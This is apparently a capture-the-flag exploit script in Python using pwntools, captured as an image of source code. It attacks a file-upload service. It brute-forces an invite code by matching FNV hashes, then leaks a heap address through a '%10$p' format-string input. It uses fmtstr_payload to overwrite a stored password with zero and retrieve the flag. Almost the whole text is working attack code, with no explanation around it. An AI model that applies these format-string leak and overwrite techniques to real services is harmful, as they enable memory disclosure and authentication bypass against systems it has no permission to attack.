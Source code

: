 ```py
            "extra_field_len": 0xffff,
            "compressed_size": required_content_length,
        })

        files = read_files(io, TOM)
        target_hash = files[-1][3].decode()
        for letter in ALPHABET:
            current_string = (current_payload + retrieved_invite_code + letter)[-required_content_length:]
            current_hash = hex(fnv(current_string.encode()))[2:]
            if current_hash == target_hash:
                retrieved_invite_code += letter
                current_payload = current_payload[1:]
                offset_to_invite_code -= 1
                print(retrieved_invite_code)
                break
        else:
            break

io = connect()
# leak_invite_code(io)
create_user(io, "test", "test")
upload_file(io, 0, {
    "file_name": "leak.txt",
    "content": "%10$p" + "A" * 10
})
heap_leak = int(view_file(io, 0, "test", 0)[:-10], 16)
log.success(f"{heap_leak = :#0x}")
heap_base = heap_leak - 0x930 
log.success(f"{heap_base = :#0x}")
heap_tom_password = heap_base + 0x480
log.success(f"{heap_tom_password = :#0x}")

upload_file(io, 0, {
    "file_name": "pwn.txt",
    "content": fmtstr_payload(14, {
        heap_tom_password: 0x00
    })
})
view_file(io, 0, "test", 1)
flag = view_flag(io, 15, b"\x00")
log.success(f"{flag = }")
io.interactive()
```
